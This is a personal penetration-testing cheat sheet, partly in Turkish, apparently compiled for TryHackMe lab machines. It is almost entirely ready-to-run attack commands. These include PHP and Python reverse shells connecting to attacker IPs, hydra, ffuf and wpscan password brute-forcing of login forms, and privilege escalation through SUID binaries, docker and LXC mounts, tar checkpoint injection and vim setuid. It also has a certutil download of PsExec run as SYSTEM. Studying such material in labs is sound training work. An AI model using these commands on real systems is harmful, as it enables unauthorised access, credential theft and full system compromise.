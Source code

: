 shell stab python

usr/bin/script -qc /bin/bash /dev/null
without python

python3 -c 'import pty; pty.spawn("/bin/sh")'
python3 -c 'import pty; pty.spawn("/bin/bash")'

python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm

CTRL-z
stty raw -echo;fg
stty rows 55 columns 116

getcap -r / 2>/dev/null -- capabilities


sudo nmap -sS -sV -n -vv -Pn -p- 


suid file 

find / -uid 0 -perm -4000 -type f 2>/dev/null

hydra brute force login form

hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.20.32 http-post-form "/admin/:user=^USER^&pass=^PASS^&LOGIN=Login:Username or password invalid"

ffuf brute force 
ffuf -w valid_users.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.139.242/customers/login -fc 200


thm='php' $thm -r '$sock=fsockopen("10.11.51.187",1234);passthru("sh <&3 >&3 2>&3");'

'python3' -c 'import os,pty,socket;s=socket.socket();s.connect(("10.11.51.187",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'

/usr/bin/pyth??? -c 'import os,pty,socket;s=socket.socket();s.connect(("10.9.163.154",4445));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/sh")'


---- docker root
docker run -v /etc/:/mnt -it alpine

-------
smbye kullanıcıyla girme

smbclient //ip/kullanıcı -U kullanıcı

----- tar ile sudo 
-dosya oluştur içine cp /bin/bash /tmp/dosya adı && chmod +s /tmp/dosya adı

ardından
touch "/var/www/html/--checkpoint-action=exec=sh dosya_adı.sh"
touch "/var/www/html/--checkpoint=1"

ardından /tmp/dosya adı -p ile çalıştır

-----

LXC PrivEsc

lxc image import ./alpine.tar.gz --alias (isim)

lxc init valerie gaming -c security.privileged=true
lxc config device add gaming mydevice disk source=/root path=/mnt/root recursive=true
lxc start gaming
lxc exec gaming /bin/sh

----- anonim olarak girilen ftpye put ile dosya yüklenebilir

----- rate limit düşürerek gözden kaçan portları bulma
sudo nmap -p- --min-rate 1000 10.10.122.24

---- wpscan ile wp-login brute force
 wpscan --url http://10.10.83.65 -U c0ldd,hugo,philip -P /usr/share/wordlists/rockyou.txt --password-attack wp-login -t 100

--------- wpscan aracı ile wordpress enum
wpscan --url http://10.10.220.178/wordpress/ -e u

--ffuf ile subdomain enum
ffuf -u http://mydomain.com -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H 'Host: FUZZ.mydomain.com' -fs 0


----- base64
lfile ata
base64 decode yap
------
--vim cap
./vim -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'

-- searchsploit db update -u

-- powershellde dosya bulunamıyor başlamıyorsa absolute path vermek gerekir.**

---curl ile [] kullanılacaksa -g kullanmalı. (get_cmd kullanıken eklenebilir. globing)

---gpg
.asc uzantısı anahtardır. 
gpg2john dosya.asc > hash şeklinde dönüşüm sağlanır parola kırılır.

gpg --import dosya.asc import edilir. 
gpg --decrypt kilitli_dosya.pgp parolayla açılır.

----HYDRA--
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.183.130 http-post-form "/Account/login.aspx:__VIEWSTATE=AUqYC6%2B2PCo3uYXvn8%2Feh%2BL9N5CXfHPdTu9jDoVOHrO2WCALA0%2BH0CVCIN3Lp%2ByGLlWrGb49JbK9HmXjYPUYZmXx8UKBIcKuo7vW2cpbNKuiCHC9YDcIo%2FeHbuIaXXFy6PCXzA9Q0E7nr4j7WnW0xAqruJ5DRnDMrDIrRQJuRlwFKqA17%2FwUqsp8Ru0N6vQGKdDZwEhetIKNNwcG0zg9LH1vG4LDAiWEBaZf%2BFf0dDaUSKoWgTgLhRlcc%2BlAb5FW8vJU9Tw1%2F7gHlGP8IPuMPrgwX8pnxKFQoaxm2uVp9n%2BItqgvFI63KF4z%2BSGuj5cfQh3PMfrwTnhX%2BxrsOiKPsDMimYO2W2EbGg%2FuUOo0p0hlRzWc&__EVENTVALIDATION=WNhphsDiUIO1CarLUkEeS2TtKGqTbAQ4vCZ2dqpIbem60ahrcisTBB2tLJOVY4kOIM6MpCIxpdsIIUT3VT0HcQVWk%2FGNqdcvALxT5hp8uqi9xGfKU953oOW%2F0XBL9XnE0vzBFckA5dYkNmss2VSvpruxNPQ%2BOOcklwdG%2FAwbfYGIlc1d&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"

--ping ile istek kontrolü 
sudo tcpdump -i tun0 icmp -A --print

---ps indirme certutil -urlcache -f http://10.11.51.187/PsExec64.exe p.exe

--ps exe çalıştırma ve parametreleri 
.\p.exe -accepteula(popup ekranı onaylayarak çıkmasını engeller) -i -d -s(sistem shelli verir) C:\Users\bruce\Downloads\shell.exe

--buffer owerflow bad character tespiti araştır

--wget ip/{dosya isimleri}

--kali$ nc -lnvp 80 < index.php --netcate dosya yönlendirilirse wget doğrudan onu alır
client$ wget 1.1.1.1 -O shell.php

---BASH--
cat <<EOF > foo.sh
#!/bin/bash

sdlşfksşf
EOF

---ffuf subdomain enum--
ffuf -w /usr/share/seclists/Discovery/DNS/namelist.txt -H 'Host: FUZZ.acmeitsupport.thm' -u http://10.10.25.169 -fs 2395

--ffuf username enum--
ffuf -w /usr/share/seclists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.51.251/customers/signup -mr "username already exists"

--ffuf brute force 
           
user@tryhackme$ ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/login -fc 200

--satır sayısı
wc -c 

